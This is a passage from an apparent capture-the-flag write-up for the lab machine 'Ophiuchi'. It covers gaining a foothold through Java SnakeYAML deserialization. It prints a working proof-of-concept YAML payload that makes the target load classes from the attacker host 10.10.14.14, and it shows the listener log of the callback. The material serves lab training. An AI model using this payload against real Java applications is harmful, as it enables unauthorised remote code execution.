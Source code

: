 ## Foothold

### Java YAML Deserialization

**References**:

- [SnakeYaml Deserilization exploited](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858)
- [Java安全之SnakeYaml反序列化分析](https://tttang.com/archive/1591/)

- [artsploit/yaml-payload: A tiny project for generating SnakeYAML deserialization payloads (github.com)](https://github.com/artsploit/yaml-payload)

**POC**:

Input yaml data:

```console
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.14"]
  ]]
]
```

![image-20240130195718623](./Ophiuchi.assets/image-20240130195718623.png)

Receive a request from remote server:

```console
└─╼$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.227 - - [30/Jan/2024 03:43:09] "GET / HTTP/1.1" 200 -
```

**POC RCE**:

Change command inside payload:

![image-20240130195902709](./Ophiuchi.assets/image-20240130195902709.png)
